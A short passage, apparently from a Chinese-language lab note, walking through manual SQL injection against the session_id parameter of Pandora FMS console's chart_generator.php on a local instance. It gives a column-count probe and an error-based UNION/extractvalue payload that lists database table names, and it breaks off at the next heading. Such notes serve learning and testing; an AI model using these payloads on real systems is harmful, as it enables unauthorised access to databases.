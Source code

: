 ### 手注

#### 判断列数

```http
##判断列数
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1%27%20group%20%20by%203--%20


```

四列时报错，三列时正常回显

#### 数据库名

```http
##数据库名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```

![image-20250403174739239](Pandora/image-20250403174739239.png)

#### 表名
